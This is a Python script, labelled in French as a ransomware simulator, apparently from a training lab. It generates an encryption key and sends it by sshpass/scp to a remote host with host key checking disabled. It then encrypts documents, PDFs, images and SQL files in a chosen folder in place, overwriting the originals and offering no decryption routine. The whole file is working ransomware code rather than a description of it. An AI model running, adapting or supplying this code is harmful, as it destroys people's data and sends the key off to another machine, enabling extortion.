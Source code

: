 #!/usr/bin/env python3
# RANSOMWARE SIMULATEUR - AUTHENTIFICATION PAR MOT DE PASSE
import os
import sys
import subprocess
from getpass import getpass
from cryptography.fernet import Fernet
from pathlib import Path

# Configuration
SSH_SERVER = "192.168.45.90"
SSH_USER = "doranco"
REMOTE_DIR = "/home/doranco/cle_dechiffrement"
KEY_FILE = "decryption_key.key"

class RansomwareSimulator:
    def __init__(self):
        self.key = None
        self.cipher = None
        self.ssh_password = None
        self.target_exts = {'.txt', '.doc', '.docx', '.pdf', '.jpg', '.sql'}
    
    def get_password(self):
        """Demande le mot de passe SSH de manière sécurisée"""
        if not self.ssh_password:
            self.ssh_password = getpass(f"Mot de passe SSH pour {SSH_USER}@{SSH_SERVER}: ")
        return self.ssh_password

    def generate_key(self):
        """Génère une clé de chiffrement"""
        print("\n[1/3] 🔑 Génération de la clé...")
        self.key = Fernet.generate_key()
        self.cipher = Fernet(self.key)
        print(f"✅ Clé générée: {self.key.decode()[:12]}...")
        return True

    def transfer_key(self):
        """Transfère la clé via SSH avec mot de passe"""
        if not self.key:
            print("❌ Aucune clé générée!")
            return False

        print("\n[2/3] 📤 Transfert de la clé...")
        try:
            # Crée le fichier temporaire
            with open(KEY_FILE, 'wb') as f:
                f.write(self.key)

            # 1. Crée le répertoire distant avec sshpass
            subprocess.run([
                'sshpass', '-p', self.get_password(),
                'ssh', f'{SSH_USER}@{SSH_SERVER}',
                f'mkdir -p {REMOTE_DIR}'
            ], check=True)

            # 2. Transfert avec scp
            subprocess.run([
                'sshpass', '-p', self.get_password(),
                'scp', '-o', 'StrictHostKeyChecking=no',
                KEY_FILE,
                f'{SSH_USER}@{SSH_SERVER}:{REMOTE_DIR}/'
            ], check=True)

            os.remove(KEY_FILE)
            print(f"✅ Clé transférée vers {SSH_SERVER}:{REMOTE_DIR}")
            return True

        except subprocess.CalledProcessError as e:
            print(f"❌ Échec du transfert: {e}")
            return False

    def encrypt_files(self, path):
        """Chiffre les fichiers"""
        if not self.key:
            print("❌ Générer d'abord une clé!")
            return

        print(f"\n[3/3] 🔒 Chiffrement de {path}...")
        count = 0
        for root, _, files in os.walk(path):
            for file in files:
                if Path(file).suffix.lower() in self.target_exts:
                    try:
                        filepath = os.path.join(root, file)
                        with open(filepath, 'rb+') as f:
                            data = f.read()
                            f.seek(0)
                            f.write(self.cipher.encrypt(data))
                            f.truncate()
                        count += 1
                    except Exception as e:
                        print(f"⚠️ Erreur sur {file}: {e}")
        print(f"✅ {count} fichiers chiffrés")

    def show_menu(self):
        """Menu interactif"""
        while True:
            print("\n" + "="*40)
            print("MENU PRINCIPAL".center(40))
            print("="*40)
            print("1. Générer une clé")
            print("2. Transférer la clé")
            print("3. Chiffrer un dossier")
            print("4. Tout exécuter (automatique)")
            print("0. Quitter")
            
            choice = input("\nVotre choix: ")
            
            if choice == "1":
                self.generate_key()
            elif choice == "2":
                self.transfer_key()
            elif choice == "3":
                path = input("Chemin du dossier à chiffrer: ")
                self.encrypt_files(path)
            elif choice == "4":
                if self.generate_key() and self.transfer_key():
                    path = input("\nChemin du dossier à chiffrer: ")
                    self.encrypt_files(path)
            elif choice == "0":
                print("\nAu revoir!")
                sys.exit(0)
            else:
                print("❌ Option invalide!")
            
            input("\nAppuyez sur Entrée pour continuer...")

if __name__ == '__main__':
    try:
        # Vérification des dépendances
        try:
            subprocess.run(['sshpass', '-V'], stdout=subprocess.DEVNULL, stderr=subprocess.DEVNULL)
        except FileNotFoundError:
            print("""
            ❌ sshpass doit être installé :
            sudo apt update && sudo apt install -y sshpass
            """)
            sys.exit(1)

        sim = RansomwareSimulator()
        sim.show_menu()

    except KeyboardInterrupt:
        print("\nOpération annulée")
        sys.exit(0)